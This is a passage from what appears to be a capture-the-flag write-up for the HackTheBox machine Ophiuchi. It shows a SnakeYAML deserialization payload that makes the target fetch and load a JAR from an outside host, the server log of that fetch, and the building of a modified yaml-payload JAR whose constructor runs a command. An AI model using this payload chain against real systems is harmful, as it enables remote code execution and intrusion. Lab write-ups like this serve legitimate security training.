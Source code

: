 ```

!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]

```

Sending that now just requests the single file, and not the `META-INF` path:

```
10.10.10.227 - - [15/Feb/2021 06:52:56] code 404, message File not found
10.10.10.227 - - [15/Feb/2021 06:52:56] "GET /yaml-payload.jar HTTP/1.1" 404 -

```

I’ll clone the [yaml-payload repo](https://github.com/artsploit/yaml-payload) to my VM and copy the `src` folder into my folder for this box:

```

oxdf@parrot$ cp -r src/ ~/hackthebox/ophiuchi-10.10.10.227/

```

I’ll change to `src/artsploit/AwesomeScriptEngineFactory` file to include a `ping` to my VM:

```

 10     public AwesomeScriptEngineFactory() {
 11         try {
 12             Runtime.getRuntime().exec("ping -c 1 10.10.14.7");
 13         } catch (IOException e) {
 14             e.printStackTrace();
 15         }
 16     }

```

Now compile that code, and then put it into a JAR:

```

oxdf@parrot$ javac src/artsploit/AwesomeScriptEngineFactory.java 
oxdf@parrot$ jar -cvf ping.jar -C src/ .
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1607) (out= 668)(deflated 58%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1480) (out= 392)(deflated 73%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)

```
